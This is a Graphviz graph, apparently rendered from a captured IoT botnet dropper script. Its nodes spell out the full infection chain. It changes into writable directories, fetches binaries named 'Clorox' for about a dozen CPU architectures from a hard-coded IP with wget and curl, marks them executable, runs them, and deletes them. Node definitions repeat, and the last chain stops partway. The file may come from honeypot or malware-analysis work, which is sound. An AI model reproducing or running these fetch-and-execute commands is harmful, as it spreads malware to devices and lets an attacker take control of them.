 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://199.191.56.114/Clorox.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://199.191.56.114/Clorox.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x Clorox.mips "];
14 -> 16 [label=";,"];
16 [label="./Clorox.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf Clorox.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://199.191.56.114/Clorox.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://199.191.56.114/Clorox.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x Clorox.mpsl "];
34 -> 36 [label=";,"];
36 [label="./Clorox.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf Clorox.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://199.191.56.114/Clorox.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://199.191.56.114/Clorox.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Clorox.sh4 "];
54 -> 56 [label=";,"];
56 [label="./Clorox.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Clorox.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://199.191.56.114/Clorox.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://199.191.56.114/Clorox.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Clorox.x86 "];
74 -> 76 [label=";,"];
76 [label="./Clorox.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Clorox.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://199.191.56.114/Clorox.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://199.191.56.114/Clorox.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x Clorox.arm "];
94 -> 96 [label=";,"];
96 [label="./Clorox.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf Clorox.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://199.191.56.114/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://199.191.56.114/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf Clorox.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://199.191.56.114/Clorox.i686 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://199.191.56.114/Clorox.i686 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Clorox.i686 "];
134 -> 136 [label=";,"];
136 [label="./Clorox.i686 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Clorox.i686 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://199.191.56.114/Clorox.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://199.191.56.114/Clorox.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Clorox.i586 "];
154 -> 156 [label=";,"];
156 [label="./Clorox.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Clorox.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://199.191.56.114/Clorox.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://199.191.56.114/Clorox.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x Clorox.m68k "];
174 -> 176 [label=";,"];
176 [label="./Clorox.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf Clorox.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://199.191.56.114/Clorox.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://199.191.56.114/Clorox.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x Clorox.spc "];
194 -> 196 [label=";,"];
196 [label="./Clorox.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf Clorox.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://199.191.56.114/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://199.191.56.114/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
}
